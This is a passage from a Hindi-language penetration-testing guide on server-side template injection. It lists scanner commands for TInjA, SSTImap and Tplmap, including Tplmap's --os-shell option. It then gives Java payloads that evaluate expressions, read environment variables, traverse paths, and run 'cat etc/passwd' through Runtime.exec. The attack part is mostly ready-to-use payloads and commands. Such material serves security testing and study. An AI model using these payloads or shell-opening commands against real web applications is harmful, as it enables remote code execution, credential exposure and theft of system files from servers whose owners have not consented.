 * अधिक जानकारी [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756) में

## Tools

### [TInjA](https://github.com/Hackmanit/TInjA)

एक प्रभावी SSTI + CSTI स्कैनर जो नवीनतम पॉलीग्लॉट्स का उपयोग करता है
```bash
tinja url -u "http://example.com/?name=Kirlia" -H "Authentication: Bearer ey..."
tinja url -u "http://example.com/" -d "username=Kirlia"  -c "PHPSESSID=ABC123..."
```
### [SSTImap](https://github.com/vladko312/sstimap)
```bash
python3 sstimap.py -i -l 5
python3 sstimap.py -u "http://example.com/" --crawl 5 --forms
python3 sstimap.py -u "https://example.com/page?name=John" -s
```
### [Tplmap](https://github.com/epinna/tplmap)
```python
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```
### [Template Injection Table](https://github.com/Hackmanit/template-injection-table)

एक इंटरैक्टिव टेबल जिसमें सबसे प्रभावी टेम्पलेट इंजेक्शन पॉलीग्लॉट्स और 44 सबसे महत्वपूर्ण टेम्पलेट इंजनों की अपेक्षित प्रतिक्रियाएँ शामिल हैं।

## Exploits

### Generic

इस **wordlist** में आप नीचे उल्लेखित कुछ इंजनों के वातावरण में **परिभाषित वेरिएबल्स** पा सकते हैं:

* [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt)
* [https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt](https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt)

### Java

**Java - Basic injection**
```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
// if ${...} doesn't work try #{...}, *{...}, @{...} or ~{...}.
```
**जावा - सिस्टम के पर्यावरण चर प्राप्त करें**
```java
${T(java.lang.System).getenv()}
```
**जावा - /etc/passwd प्राप्त करें**
```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

```